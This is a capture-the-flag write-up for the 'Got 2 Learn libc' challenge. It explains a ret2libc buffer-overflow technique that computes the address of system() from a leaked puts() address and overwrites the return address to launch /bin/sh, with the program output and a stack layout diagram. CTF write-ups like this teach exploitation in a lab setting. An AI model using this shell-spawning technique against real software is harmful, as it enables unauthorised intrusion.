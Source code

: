 # Got 2 Learn libc

This program gives you the address of some system calls. Can you get a shell? You can find the program in /problems/got-2-learn-libc_3_6e9881e9ff61c814aafaf92921e88e33 on the shell server.


## Solution
The solution to this problem is `ret2libc`. Return to libc is a technique of redirecting code execution to a well known function in libc. For this particular problem I decided to return to the `system` function to get a shell.


### How does it work?
The binary gives us a set of addresses of `libc` functions:

```
$ ./vuln
Here are some useful addresses:

puts: 0xf6a43890
fflush 0xf6a419f0
read: 0xf6abb3e0
write: 0xf6abb450
useful_string: 0x5c9ae030

Enter a string:
```

The two addresses that I decided to use from this output was `puts` function address and the `useful_string` address. The `useful_string` address points to the string `/bin/sh`.


**NOTE: I discovered that the offset between the `puts` function and the `system` function, in libc, is the same regardless of ASLR.**

I wrote a `C` program to give me the offset amount:

```
$ ./libc_addr
puts:           0xec742890
system:         0xec71d850
offset:         -151616
new_ptr:        0xec71d850
```

#### Generating the Shellcode
Using the `puts` function pointer and the useful_string address from running `./vuln` and the offset from running `./libc_addr`, we craft an input string that results in the following stack state:

```
|-----------------| <-- ebp+20
| \n\0\0\0        |
|-----------------| <-- ebp+16
| useful_str_addr |             (this is the first argument for system)
|-----------------| <-- ebp+12
| puts_addr       |             (this is the return address for the libc system function call)
|-----------------| <-- ebp+8
| system_addr     |             (this is calculated: system_addr = puts_addr + offset)
|-----------------| <-- ebp+4
|                 |
| AAAAAAAA....    |
| AAAAAAAAAAAAA   |             (There is 160 bytes between the input buffer and the return address)
|                 |
|-----------------| <-- ebp-156
```

In the diagram, we have effectively created a [call stack](https://en.wikipedia.org/wiki/Call_stack) for the libc `system` function.

